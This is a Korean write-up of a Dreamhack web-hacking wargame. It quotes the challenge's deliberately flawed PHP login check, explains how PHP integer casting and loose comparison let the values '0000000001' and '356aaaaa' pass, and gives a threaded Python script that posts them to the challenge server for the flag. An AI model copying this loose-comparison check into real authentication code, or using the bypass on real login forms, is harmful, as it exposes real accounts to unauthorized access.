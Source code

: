 ```yaml
---
layout: single
categories:
  - webhacking
title: "[wargame]"
tags:
---
```

https://dreamhack.io/wargame/challenges/960


핵심 코드 

```php
    <?php
    function getRandStr($length = 10) {
        $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
        $charactersLength = strlen($characters);
        $randomString = '';
    
        for ($i = 0; $i < $length; $i++) {
            $randomString .= $characters[mt_rand(0, $charactersLength - 1)];
        }
        return $randomString;

    }
    require_once('flag.php');
    error_reporting(0);
    $id = getRandStr();
    $pw = sha1("1");
    // POST request
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
      $input_id = $_POST["input1"] ? $_POST["input1"] : "";
      $input_pw = $_POST["input2"] ? $_POST["input2"] : "";
      sleep(1);

      if((int)$input_id == $id && strlen($input_id) === 10){
        echo '<h4>ID pass.</h4><br>';
        if((int)$input_pw == $pw && strlen($input_pw) === 8){
            echo "<pre>FLAG\n";
            echo $flag;
            echo "</pre>";
          }
        } else{
          echo '<h4>Try again.</h4><br>';
        }
      }else {
      echo '<h3>Fail...</h3>';
     }
    ?> 
```

      if((int)$input_id == $id  
      
 이부분에서 input_id 를 int 로 형변환 하는데 덩달아 $id 부분도 int 로 변환된다 
 
 그래서 만약 id 의 첫부분이 숫자가 아닌 문자열이라면 0을 반환하고 1abc... 이렇게 되어있으면 문자열 부분을 제외한 1 이 반환된다 이걸이용해 길이를 맞춰주고 
 
 
 비번은 해시화 하면 "356a192b7913b04c54574d18c28d46e6395428ab" 이므로 356 하고 뒤에는 숫자를 제외한 문자를 넣으면 된다
 
  
  그래서 결론 코드는 
```python
import requests
from concurrent.futures import ThreadPoolExecutor


url = "http://host3.dreamhack.games:17328/check.php"


def flag():
    data = {
        "input1" : "0000000001",
        "input2" : "356aaaaa"
    }
    res = requests.post(url, data=data)
    print(res.status_code)
    if "FLAG" in res.text:
        print("FLAG IS : "+res.text)


with ThreadPoolExecutor(max_workers=100) as executor:
    for _ in range(100):
        executor.submit(flag) 
```

sleep (1) 함수에서 정체되지 않기위해 스레드 비동기로 리퀘스트를 보냈다 